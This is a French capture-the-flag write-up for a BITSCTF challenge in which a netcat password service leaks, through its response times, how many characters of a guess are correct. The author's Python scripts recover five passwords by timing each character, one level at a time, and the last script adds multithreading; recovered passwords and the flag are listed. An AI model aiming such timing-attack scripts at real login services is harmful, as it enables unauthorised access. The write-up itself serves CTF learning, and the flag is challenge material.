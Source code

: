 ### Énoncé

> **MogamBro's Certainty Principle**
> MogamBro's Certainty Principle states that the more accurate you are the more delay you'll face. Δt • Δp ≥ frustration / ram_space; where p is precission and t is time.

```bash
nc 20.244.33.146 4445
```


### Résolution

Connectons nous au serveur avec netcat dans un terminal.

![Capture du challenge](1.png)

On peut remarquer un temps de réponse est donné pour chaque requête. On peut aussi remarquer que parfois il est un peu plus long de 0.1 seconde. On déduit ensuite que le temps de réponse est calculé en fonction de la précision du premier caractère du mot de passe, puis s'il est bon du suivant etc.

#### Niveau 1

Faisons alors un script qui va tester chaque caractère possible, trouver le bon et faire de même avec le suivant jusqu'à trouver le bon mot de passe.

```python
import socket
import re
from time import sleep

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.sendall((password + '\n').encode())
    s.recv(1024) # 'Enter password: \n'
    result = s.recv(1024) # 'Incorrect password\nTime taken:  0.40008874246294085\n'
    s.recv(1024) # ''
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'AZERTYUIOPQSDFGHJKLMWXCVBNazertyuiopqsdfghjklmwxcvbn1234567890 ':
        time = test(password + l)
        if time > 0.1 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le mot de passe : `SLOPPYTOPPYWITHATWIST`.


#### Niveau 2

Sauf qu'il nous indique désormais : *Congratulations! You have unlocked the door to level 2!*. Et redemande un autre mot de passe.

On peut alors réutiliser le même script pour trouver le mot de passe du niveau 2.

```python
import socket
import re
from time import sleep, time

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'AZERTYUIOPQSDFGHJKLMWXCVBNazertyuiopqsdfghjklmwxcvbn1234567890 ':
        time = test(password + l)
        if time > 0.05 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le mot de passe : `GINGERDANGERHERMOINEGRANGER`.


#### Niveau 3

On atteint alors le niveau 3, et on peut réutiliser le même script pour trouver le mot de passe du niveau 3.

```python
import socket
import re
from time import sleep

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall('GINGERDANGERHERMOINEGRANGER\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'ETAOINSHRDLCUMWFGYPBVKJXQZetaoinshrdlcumwfgypbvkjxqz1234567890 _-{}':
        time = test(password + l)
        print(l + ' (' + str(time) + ')')
        if time > 0.01 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le troisième mot de passe : `HICKERYDICKERYDOCKSKIBIDIDOBDOBPOP`.


#### Niveau 4

```python
import socket
import re
from time import sleep

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall('GINGERDANGERHERMOINEGRANGER\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall(('HICKERYDICKERYDOCKSKIBIDIDOBDOBPOP\n').encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'ETAOINSHRDLCUMWFGYPBVKJXQZetaoinshrdlcumwfgypbvkjxqz1234567890 _-{}':
        time = test(password + l)
        print(l + ' (' + str(time) + ')')
        if time > 0.005 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le quatrième mot de passe : `SNICKERSNORTSUPERSECURESHORTSHAKINGSAFARISADISTIL`.

#### Niveau 5

Bon là ça devient vraiment très long puisque ça remet tous les anciens mots de passe avant. Du coup on va optimiser un peu le truc avec du multithreading : parfois il se trompe, mais c'est 10 fois plus rapide.

```python
import socket
import re
from time import sleep
import threading

def test(password, results):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall('GINGERDANGERHERMOINEGRANGER\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall(('HICKERYDICKERYDOCKSKIBIDIDOBDOBPOP\n').encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall(('SNICKERSNORTSUPERSECURESHORTSHAKINGSAFARISADISTIC\n').encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 4!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    results[password] = float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''
while True:
    threads = []
    results = {}
    for l in 'ETAOINSHRDLCU':
        thread = threading.Thread(target=test, args=(password + l, results))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()
    for test_password, time in results.items():
        print(test_password + ' (' + str(time) + ')')
        if time > 0.003 * len(test_password):
            password = test_password
            break
    sleep(0.2)
    threads = []
    results = {}
    for l in 'MWFGYPBVKJXQZ':
        thread = threading.Thread(target=test, args=(password + l, results))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()
    for test_password, time in results.items():
        print(test_password + ' (' + str(time) + ')')
        if time > 0.003 * len(test_password):
            password = test_password
            break
    sleep(0.2)
    print(password)
```

On obtient alors le cinquième mot de passe : `BOOMPOPWHIZZLESKIZZLERAPTRAPMEOWBARKHOWLBUZZDRUMBURPFARTPOOP`.

Et c'est enfin enfin le flag : **BITSCTF{c0n6r47ul4710n5_0n_7h3_5ucc355ful_3n7ry}**